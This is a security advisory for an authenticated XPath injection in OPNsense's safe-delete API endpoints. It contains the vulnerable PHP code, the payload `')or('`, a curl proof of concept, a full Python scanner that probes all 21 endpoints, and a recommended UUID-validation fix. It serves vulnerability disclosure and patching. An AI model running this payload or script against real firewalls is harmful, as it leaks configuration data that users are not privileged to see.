


# XPath injection in MVC safe-delete

- Severity: Moderate (4.3) - `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:N/A:N`
- Software: [OPNsense](https://github.com/OPNsense/core)
- Version: `<26.1.10`
- References:
- - `TBA`
- - [GHSA-98h6-479q-9q3w](https://github.com/opnsense/core/security/advisories/GHSA-98h6-479q-9q3w)
- - [Blog Post](https://hackerask.com/posts/opnsense/)

## Summary

Every MVC model controller that enables "safe delete" routes the delete token (taken directly from the request URL) into an XPath query, built using **string interpolation**, with **no validation or escaping** between the URL and the sink.

A token such as `')or('` closes the string literal and turns the query into one, matching every node in `config.xml`. The query runs against the **entire configuration**, and on a match the API returns (HTTP 500) a message embedding the matched nodes module/description/reference path/uuid. This gives an authenticated low-privilege user a cross-module configuration disclosure and a config-wide substring-presence oracle. This is reachable from 21 endpoints, each gated only by that privilege of the module.

## Details

### Root cause

A untrusted token is interpolated into XPath, without any sanitization/validation.

There is **no validation** between the URL and the sink. `delBase` calls `checkAndThrowSafeDelete()` on each comma-splitted token before the model lookup.
An unknown/malformed UUID simply returns `null` later (`$rootnode?->$uuid`) and is not rejected first:

```php
// src/opnsense/mvc/app/controllers/OPNsense/Base/ApiMutableModelControllerBase.php
foreach ($uuids as $uuid) {
    $this->checkAndThrowSafeDelete($uuid, ...);                         // line 536 - no UUID format validation before use
...
if ($contains) {
    $xpath = "//text()[contains(.,'{$token}')]";                        // line 116 - $token interpolated directly into XPath
}
...
foreach (Config::getInstance()->object()->xpath($xpath) as $node) {     // line 122 - payload ')or(' produces: //text()[contains(.,'')or('')] 
                                                                        // -> matches every text node in config.xml
                                                                        // -> UserException leaks module names, item descriptions and UUIDs
```

### Affected Endpoints (21)

- `/api/trafficshaper/settings/del_pipe/`
- `/api/trafficshaper/settings/del_queue/`
- `/api/trafficshaper/settings/del_rule/`
- `/api/dhcrelay/settings/del_relay/`
- `/api/dhcrelay/settings/del_dest/`
- `/api/dnsmasq/settings/del_host/`
- `/api/dnsmasq/settings/del_domain/`
- `/api/dnsmasq/settings/del_tag/`
- `/api/dnsmasq/settings/del_range/`
- `/api/dnsmasq/settings/del_option/`
- `/api/dnsmasq/settings/del_boot/`
- `/api/firewall/category/del_item/`
- `/api/kea/dhcpv4/del_subnet/`
- `/api/kea/dhcpv4/del_reservation/`
- `/api/kea/dhcpv4/del_option/`
- `/api/kea/dhcpv4/del_peer/`
- `/api/kea/dhcpv6/del_subnet/`
- `/api/kea/dhcpv6/del_reservation/`
- `/api/kea/dhcpv6/del_option/`
- `/api/kea/dhcpv6/del_pd_pool/`
- `/api/kea/dhcpv6/del_peer/`

### Proof of Concept

We can simply replace the UUID token, that should be deleted with a payload like `')or('`:

```bash
# Injection - expect HTTP 500 with "<Module> - <descr> {path.uuid}" body (NOT "not found"):
curl -sk -u "$apikey:$apisecret" -X POST "https://192.168.1.1/api/dnsmasq/settings/del_host/')or('"
```



### Validation Script

This is a simple validation script, which verifies the 21 vulnerable endpoints allow XPath injection:

```python3
#!/usr/bin/env python3
import argparse
import base64
import json
import ssl
import sys
import urllib.error
import urllib.request

PAYLOAD = "')or('"

ENDPOINTS = [
    # TrafficShaper - privilege: Firewall: Shaper
    "/api/trafficshaper/settings/del_pipe/",
    "/api/trafficshaper/settings/del_queue/",
    "/api/trafficshaper/settings/del_rule/",
    # DHCRelay - privilege: Services: DHCRelay
    "/api/dhcrelay/settings/del_relay/",
    "/api/dhcrelay/settings/del_dest/",
    # Dnsmasq - privilege: Services: Dnsmasq DNS/DHCP: Settings
    "/api/dnsmasq/settings/del_host/",
    "/api/dnsmasq/settings/del_domain/",
    "/api/dnsmasq/settings/del_tag/",
    "/api/dnsmasq/settings/del_range/",
    "/api/dnsmasq/settings/del_option/",
    "/api/dnsmasq/settings/del_boot/",
    # Firewall Category - privilege: Firewall: Categories
    "/api/firewall/category/del_item/",
    # Kea DHCPv4 - privilege: Services: DHCP: Kea(v4)
    "/api/kea/dhcpv4/del_subnet/",
    "/api/kea/dhcpv4/del_reservation/",
    "/api/kea/dhcpv4/del_option/",
    "/api/kea/dhcpv4/del_peer/",
    # Kea DHCPv6 - privilege: Services: DHCP: Kea(v6)i
    "/api/kea/dhcpv6/del_subnet/",
    "/api/kea/dhcpv6/del_reservation/",
    "/api/kea/dhcpv6/del_option/",
    "/api/kea/dhcpv6/del_pd_pool/",
    "/api/kea/dhcpv6/del_peer/",
]

RED    = "\033[91m"
YELLOW = "\033[93m"
GREEN  = "\033[92m"
BOLD   = "\033[1m"
RESET  = "\033[0m"

_ssl_ctx = ssl.create_default_context()
_ssl_ctx.check_hostname = False
_ssl_ctx.verify_mode = ssl.CERT_NONE


def _auth_header(key: str, secret: str) -> str:
    return "Basic " + base64.b64encode(f"{key}:{secret}".encode()).decode()


def probe(base_url: str, endpoint: str, key: str, secret: str) -> tuple[int, dict | None]:
    url = base_url.rstrip("/") + endpoint + PAYLOAD
    req = urllib.request.Request(url, data=b"", method="POST")
    req.add_header("Authorization", _auth_header(key, secret))
    req.add_header("Content-Type", "application/x-www-form-urlencoded")
    try:
        with urllib.request.urlopen(req, context=_ssl_ctx, timeout=10) as r:
            return r.status, _json(r.read())
    except urllib.error.HTTPError as e:
        return e.code, _json(e.read())
    except urllib.error.URLError as e:
        print(f"  {RED}connection error:{RESET} {e.reason}", file=sys.stderr)
        return -1, None


def _json(raw: bytes) -> dict | None:
    try:
        return json.loads(raw.decode())
    except Exception:
        return None


def classify(status: int, body: dict | None) -> tuple[str, str]:
    if status == 500 and isinstance(body, dict) and "errorMessage" in body:
        return "VULNERABLE", RED
    if status == 200 and isinstance(body, dict):
        result = body.get("result", "")
        if result == "not found":
            return "INCONCLUSIVE", YELLOW
        if result == "failed":
            return "OK", GREEN
    if status == 404:
        return "NOT FOUND", RESET
    if status in (401, 403):
        return "AUTH ERROR", YELLOW
    if status == -1:
        return "UNREACHABLE", RESET
    return f"UNKNOWN ({status})", RESET


def scan_all(base_url: str, key: str, secret: str) -> None:
    print(f"\n{BOLD}OPNsense XPath injection scan{RESET}  {base_url}")
    print(f"Payload : {PAYLOAD}\n")
    col_w = max(len(ep) for ep in ENDPOINTS) + 2
    print(f"{'Endpoint':<{col_w}} {'HTTP':>4}  Result")
    print("-" * (col_w + 20))
    for ep in ENDPOINTS:
        status, body = probe(base_url, ep, key, secret)
        label, colour = classify(status, body)
        http_str = str(status) if status != -1 else "  -"
        print(f"{ep:<{col_w}} {http_str:>4}  {colour}{BOLD}{label}{RESET}")


def scan_one(base_url: str, endpoint: str, key: str, secret: str) -> None:
    url = base_url.rstrip("/") + endpoint + PAYLOAD
    status, body = probe(base_url, endpoint, key, secret)
    label, colour = classify(status, body)
    print(f"\nURL     : {url}")
    print(f"HTTP    : {status}")
    print(f"Result  : {colour}{BOLD}{label}{RESET}")
    print(f"\n--- response ---")
    if body is not None:
        print(json.dumps(body, indent=2, ensure_ascii=False))
    else:
        print("(no parseable JSON body)")


def main() -> None:
    parser = argparse.ArgumentParser(
        description="Check OPNsense del* Action endpoints for XPath injection via uuid path parameter"
    )
    parser.add_argument("--apikey",    required=True,  help="OPNsense API key")
    parser.add_argument("--apisecret", required=True,  help="OPNsense API secret")
    parser.add_argument("--baseurl",   default="https://192.168.1.1", help="Firewall base URL (default: https://192.168.1.1)")
    parser.add_argument("--endpoint",  metavar="PATH", help="Test a single endpoint path and print the full JSON response (e.g. /api/dnsmasq/settings/del_host/)")
    args = parser.parse_args()

    if args.endpoint:
        scan_one(args.baseurl, args.endpoint, args.apikey, args.apisecret)
    else:
        scan_all(args.baseurl, args.apikey, args.apisecret)


if __name__ == "__main__":
    main()
```

(You can find the xpath injection probing script [here](probe_xpath_injection.py))

The easiest way to test this, is to use an admin user so you have access to all endpoints. Otherwise, endpoints for which you lack the privilege will display an `AUTH ERROR`.



## Impact

A low-privileged user holding any one of the affected module privileges (`Firewall: Shaper`, `Firewall: Categories`, `Services: Dnsmasq`, `Services: DHCRelay`, `Services: DHCP: Kea v4`, `Services: DHCP: Kea v6`) can send a crafted delete request to any of the 21 affected endpoints and receive a HTTP 500 response containing the names, descriptions and UUIDs of configuration items across all modules, including modules they have no legitimate access to. No data is modified and no deletion occurs.

## Recommended Fix

Validate the UUID format in `delBase()` before it reaches `checkAndThrowValueInUse()`. A single guard at the top of the loop covers all 21 affected endpoints:

```php
// src/opnsense/mvc/app/controllers/OPNsense/Base/ApiMutableModelControllerBase.php
foreach ($uuids as $uuid) {                                                                             // line 535
    if (!preg_match('/^[0-9a-f]{8}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{12}$/i', $uuid)) {      // UUID Regex
        continue;
    }
```

This ensures that any non-UUID tokens, including XPath injection payloads, are silently skipped before being interpolated into the query.

## Credit

Jonas Ampferl at Hacking Cult GmbH <https://hackingcult.de/>

Blog Post with writeup and PoC: <https://hackerask.com/posts/opnsense/>
